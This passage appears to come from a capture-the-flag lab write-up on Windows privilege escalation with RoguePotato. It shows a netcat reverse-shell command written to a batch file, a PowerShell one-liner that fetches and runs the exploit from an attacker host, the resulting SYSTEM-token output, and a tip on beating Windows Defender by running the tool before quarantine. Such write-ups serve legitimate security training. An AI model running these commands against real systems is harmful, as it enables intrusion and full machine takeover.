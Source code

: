 
The request will look like (and the response will travel the same path
in the opposite direction):

![](/img/image-20210129121730010.png)

This could probably be done without `socat`, just using `chisel` to
listen on 135, but I didn't test that.

### Defender

Windows Defender will eat `RoguePotato.exe` when it's on disk, but it
turns out that if I run it fast enough, I can get it to execute before
it's detected and quarantined. I had more success running the payload as
a `.bat` file.



    c:\ProgramData>echo c:\programdata\nc.exe -e cmd 10.10.14.24 443 > rev.bat                    
                                                  
    c:\ProgramData>type rev.bat                             
    c:\programdata\nc.exe -e cmd 10.10.14.24 443



I tested `rev.bat` by just running it and making sure I got a shell
back.

Now I'll make sure to run the commands to download and then execute
`RoguePotato.exe` in one line.

### Success

Now I have everything in place to run RoguePotato. For speed, I'll run
one command with stacked commands to download and run it:



    c:\ProgramData>powershell -c wget 10.10.14.24/RoguePotato.exe -outfile r.exe; .\r.exe -r 10.10.14.24 -l 9999 -e C:\programdata\rev.bat
    [+] Starting RoguePotato...
    [*] Creating Rogue OXID resolver thread
    [*] Creating Pipe Server thread..
    [*] Creating TriggerDCOM thread...
    [*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
    [*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}
    [*] Starting RogueOxidResolver RPC Server listening on port 9999 ... 
    [*] IStoragetrigger written:104 bytes
    [*] SecurityCallback RPC call
    [*] ResolveOxid2 RPC call, this is for us!
    [*] ResolveOxid2: returned endpoint binding information = ncacn_np:localhost/pipe/RoguePotato[\pipe\epmapper]
    [*] Client connected!
    [+] Got SYSTEM Token!!!
    [*] Token has SE_ASSIGN_PRIMARY_NAME, using CreateProcessAsUser() for launching: C:\programdata\rev.bat
    [+] RoguePotato gave you the SYSTEM powerz :D

